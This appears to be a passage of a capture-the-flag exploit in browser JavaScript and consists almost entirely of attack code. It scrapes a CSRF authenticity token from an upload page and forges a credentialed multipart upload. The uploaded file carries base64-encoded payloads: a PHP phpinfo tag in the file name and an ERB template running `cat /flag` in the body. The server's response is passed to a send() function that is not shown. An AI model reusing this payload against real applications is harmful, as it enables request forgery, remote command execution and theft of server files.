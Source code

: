 ```js
    xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP");
    xhr.withCredentials = "true";
    var body = "-----------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP\r\n" +
      "Content-Disposition: form-data; name=\"utf8\"\r\n" +
      "\r\n" +
      "%E2%9C%93\r\n"+
      "-----------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP\r\n" +
      "Content-Disposition: form-data; name=\"authenticity_token\"\r\n" +
      "\r\n" +
      authenticity_token + "\r\n" +
      "-----------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP\r\n" +
      "Content-Disposition: form-data; name=\"file[context]\"\r\n" +
      "\r\n" +
      "1\"\r\n" +
      "-----------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP\r\n" +
      "Content-Disposition: form-data; name=\"file[myfile]\"; filename=\"PD9waHAgcGhwaW5mbygpOyA/Pg==\"\r\n" +
      "Content-Type: application/octet-stream\r\n" +
      "\r\n" +
      "PCU9YGNhdCAvZmxhZ2AlPg==\r\n" +
      "-----------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP--\r\n"+

      "Content-Disposition: form-data; name=\"commit\"\r\n" +
      "\r\n" +
      "submit\r\n" +
      "-----------------------------WebKitFormBoundaryunB6T8sJg0SQvlKP\r\n";
    var aBody = new Uint8Array(body.length);
    for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i);
    xhr.onload=function(evt){
      var data = evt.target.responseText;
      send(data);
    }
    xhr.send(new Blob([aBody]));
}
function gettoken(){
    var t = new XMLHttpRequest;
    t.open("GET", "/home/upload", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.onload=function(evt){
      var data = evt.target.responseText;
      regex = /<input type="hidden" name="authenticity_token" value="(.+)?"/g;
      submitRequest(regex.exec(data)[1]);
    }
    t.send();
}
gettoken();
```
